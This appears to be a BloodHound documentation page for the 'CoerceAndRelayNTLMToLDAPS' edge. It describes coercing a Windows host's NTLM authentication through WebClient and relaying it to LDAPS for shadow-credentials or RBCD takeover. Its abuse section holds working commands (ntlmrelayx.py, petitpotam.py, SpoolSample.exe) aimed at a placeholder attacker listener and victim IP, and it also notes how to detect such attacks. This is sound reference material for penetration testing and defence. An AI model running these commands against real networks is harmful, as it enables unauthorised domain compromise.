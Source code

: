 ```yaml
---
title: CoerceAndRelayNTLMToLDAPS
description: The target computer can be coerced to authenticate via NTLM to an LDAPS service on a domain controller that does not require LDAPS channel binding, allowing an attacker to abuse Active Directory permissions or obtain administrative access to the target computer.
---
```


<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg" alt="Applies to BloodHound Enterprise and CE"/>

This edge indicates that the target computer has the WebClient service running. This enables an attacker with "Authenticated Users" access to trigger WebClient-based coercion from the target computer to their attacker-controlled host via NTLM. Since the connection originates from the WebClient instead of SMB, the attacker can relay the authentication attempt to LDAPS of a domain controller that does not require LDAPS channel binding. This relay can be used to abuse Active Directory permissions or obtain administrative access to the target computer using Resource-Based Constrained Delegation (RBCD) or Shadow Credentials.

## Abuse Info

This section provides general guidance about abusing this edge. For detailed instructions, see [references](#references) at the end of this article.

### Linux

1. **Start the Relay Server**

   The NTLM relay can be executed with [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py). To relay to LDAP and perform a Shadow Credentials attack against the target computer:

   ```bash
   ntlmrelayx.py -t ldaps://<Domain Controller IP> --shadow-credentials
   ```

1. **Coerce the Target Computer**

   Several coercion methods are documented here: [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods).

   Examples of tools include:

   - [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
   - [PetitPotam](https://github.com/topotam/PetitPotam)

   To trigger WebClient coercion (instead of regular SMB coercion), the listener must use a WebDAV Connection String format: `\\SERVER_NETBIOS@PORT/PATH/TO/FILE`.

   ```bash
   petitpotam.py -d "DOMAIN" -u "USER" -p "PASSWORD" "ATTACKER_NETBIOS@PORT/file.txt" "VICTIM_IP"
   ```

### Windows

1. **Start the Relay Server**

   The NTLM relay can be executed with [Inveigh](https://github.com/Kevin-Robertson/Inveigh).

1. **Coerce the Target Computer**

   Several coercion methods are documented here: [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods).

   Examples of tools include:

   - [SpoolSample](https://github.com/leechristensen/SpoolSample)
   - [PetitPotam](https://github.com/topotam/PetitPotam)

   To trigger WebClient coercion (instead of regular SMB coercion), the listener must use a WebDAV Connection String format: `\\SERVER_NETBIOS@PORT/PATH/TO/FILE`.
   
   ```ps
   SpoolSample.exe "VICTIM_IP" "ATTACKER_NETBIOS@PORT/file.txt"
   ```

## Opsec Considerations

NTLM relayed authentications can be detected by login events where the IP address does not match the computer's actual IP address. This detection technique is described in the blog post: [Detecting NTLM Relay Attacks](https://posts.bluraven.io/detecting-ntlm-relay-attacks-d92e99e68fb9).

## Edge Schema

Source: `Authenticated Users`, [Group](/resources/nodes/group)  
Destination: [Computer](/resources/nodes/computer)  
Traversable: **Yes**  

## References

- [Hackndo: NTLM relay](https://en.hackndo.com/ntlm-relay/)
- [Microsoft: NTLM Overview](https://learn.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview)
- [Relay Your Heart Away: An OPSEC-Conscious Approach to 445 Takeover](https://posts.specterops.io/relay-your-heart-away-an-opsec-conscious-approach-to-445-takeover-1c9b4666c8ac)
- [Inveigh](https://github.com/Kevin-Robertson/Inveigh)
- [Windows Coerced Authentication Methods](https://github.com/p0dalirius/windows-coerced-authentication-methods)
- [PetitPotam](https://github.com/topotam/PetitPotam)
- [SpoolSample](https://github.com/leechristensen/SpoolSample)
- [Beyond the Basics: Exploring Uncommon NTLM Relay Attack Techniques](https://www.guidepointsecurity.com/blog/beyond-the-basics-exploring-uncommon-ntlm-relay-attack-techniques/)
- [printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)
- [I'm bringing relaying back: A comprehensive guide on relaying anno 2022](https://trustedsec.com/blog/a-comprehensive-guide-on-relaying-anno-2022)
- [ntlmrelayx.py](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py)
- [2020, 2023, and 2024 LDAP channel binding and LDAP signing requirements for Windows (KB4520412)](https://support.microsoft.com/en-us/topic/2020-2023-and-2024-ldap-channel-binding-and-ldap-signing-requirements-for-windows-kb4520412-ef185fb8-00f7-167d-744c-f299a66fc00a)
- [Detecting NTLM Relay Attacks](https://posts.bluraven.io/detecting-ntlm-relay-attacks-d92e99e68fb9)
